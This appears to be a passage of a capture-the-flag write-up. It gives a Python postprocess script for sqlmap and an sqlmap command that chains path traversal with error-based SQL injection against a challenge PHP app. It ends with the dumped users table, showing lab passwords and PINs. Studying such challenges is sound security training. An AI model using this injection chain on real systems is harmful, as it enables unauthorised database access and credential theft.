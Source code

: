 #### ./postprocess/b64answer.py :
```
#!/usr/bin/env python
import re
import base64

def decode_base64(base64_data):
    try:
        decoded_data = base64.b64decode(base64_data).decode("ascii")
        return decoded_data
    except Exception as e:
        print(f"Error decoding base64 data: {str(e)}")
        return ""

def postprocess(page, headers=None, code=None):
    base64_matches = re.findall(r'data:image/png;base64,([^\']+)', page)
    # Decoding the base64 data
    decoded_data = ""
    if len(base64_matches):
      decoded_data = decode_base64(base64_matches[0])

    baseresponse = '''HTTP/1.1 200 OK
Date: Sat, 27 Jan 2024 11:30:40 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.3.1
Vary: Accept-Encoding
Content-Length: {content_length}
Connection: close
Content-Type: text/html; charset=UTF-8

'''.format(content_length=len(decoded_data))

    newpage = baseresponse + decoded_data
    
    return newpage if len(base64_matches) else page, headers, code
```
### Listing WARAdmin database messages and users

Using the techniques described above we can list the messages and users tables:

`sqlmap -u 'http://CHALL:8090/war-web.php?country=../../../../private/message.php?passcode=%INJECT HERE%%3f&flag=1' --technique=E --tamper=space2plus --postprocess=postprocess/b64answer.py --skip-urlencode -v --sql-shell`

#### Content of the users table:
```
SELECT * FROM users [3]:
[*] 2024-01-27 09:09:16, admin@domain.local, 0000, H4kD4y, 1, admin
[*] 2024-01-27 09:09:16, devoteam@domain.local, 1234, D3V0T43M, 2, devoteam
[*] 2024-01-27 09:09:16, esiee@domain.local, 9999, ScH00l, 3, esiee
```
